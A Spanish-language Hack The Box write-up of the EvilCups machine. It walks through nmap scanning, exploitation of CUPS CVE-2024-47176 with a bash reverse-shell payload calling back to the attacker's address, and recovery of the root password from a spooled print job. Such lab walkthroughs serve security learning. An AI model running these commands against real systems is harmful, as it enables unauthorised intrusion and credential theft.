 ```yaml
---
title: EvilCups
published: True
---
```

* * *

En este writeup, exploramos la máquina **EvilCups** de Hack The Box, donde explotamos múltiples vulnerabilidades para escalar privilegios y comprometer el sistema. Utilizamos técnicas como la **enumeración de servicios expuestos**, la explotación de **vulnerabilidades recientemente publicadas de CUPS**,etc...

**CUPS** es un sistema de impresión utilizado en sistemas operativos UNIX, que permite a los usuarios configurar y gestionar impresoras locales y en red mediante el uso de controladores.

# [](#header-1)RECONOCIMIENTO
Realizamos un escaneo con nmap:

	❯ nmap -sCV -v 10.10.11.40 -Pn -T3
	
Como resultado encontramos esto:
  ```ruby
  
  PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 364995038db44c6ea92592af3c9e0666 (ECDSA)
|_  256 9fa4a9391120e096eec49a6928950c60 (ED25519)
631/tcp open  ipp     CUPS 2.4
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Home - CUPS 2.4.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Y encontramos dos puertos Tcp abiertos.
Vamos a ver que encontramos dentro de el puerto 631.

Aquí encontramos una versión:
![Texto alternativo](/assets/evilcups1.png)
* * *

# [](#header-1)Foothold

El foothold en esta máquina es fácil. Vamos a buscar vulnerabilidades en esa versión de CUPS:

Y relacionada con esa versión encontramos un CVE, en concreto este:
	CVE-2024-47176

Asique vamos a proceder a explotarlo.
```js
❯ python3 evilcups.py 10.10.15.127 10.10.11.40 "bash -c 'bash -i >& /dev/tcp/10.10.15.127/8484 0>&1'"
```
![Texto alternativo](/assets/EvilCups2.png)

Para conseguir la reverse shell nos metemos dentro de la "impresora" que hemos conseguido crear mediante el exploit, y vamos a seleccionar esta opcion:

![Texto alternativo](/assets/EvilCups3.png)
![Texto alternativo](/assets/EvilCups4.png)

Y ya estaríamos con la reverse shell, listamos el contenido dentro del directorio en el que nos encontramos y encontraríamos la user flag.

Después de estar mirando por la máquina encontré que todos los trabajos de impresión se almacenan en /var/spool/cups

Como no tenemos permisos para listar el contenido, necesitamos saber cual es el siguiente "trabajo"/documento que la impresora que ya existe, para poder listarlo y así descargármelo.

En este caso ese "trabajo" de impresion tiene el nombre d00001-001
En el que significa:

```js
❯ -d: nos indica que es un archivo de datos de impresion
	00001: identifica el primera trabajo ne la cola
	001: especifica la instancia única del trabajo.
```
Todo este nombre se suele deducir a partir de el formato estandar que se utiliza en cups.
Tambien podriamos obtener este nombre realizando varios comandos en la maquina victicma, para ver que trabajos estan en cola como:
```js
	lpstat -o
	ls /var/spool/cups (si tenemos permisos)
	lpq
```
Pués una vez encontrado ese "trabajo" en cola, me lo voy a pasar a mi maquina para pasarlo a pdf y poder leerlo.

Para convertirlo a pdf utilize este comando:

```js
	ps2pdf d00001-001
```

Y dentro de ese archivo que ahora es un pdf encontramos la contraseña de root.
![Texto alternativo](/assets/EvilCups5.png)

Una vez encontrada la contraseña de root vamos a proceder mediante SSH a conectarnos y capturar la rootflag:

![Texto alternativo](/assets/EvilCups6.png)

PWNED!

*Documentación de aporte*

https://www.cups.org/doc/spec-design.html
https://github.com/AxthonyV/CVE-2024-47176
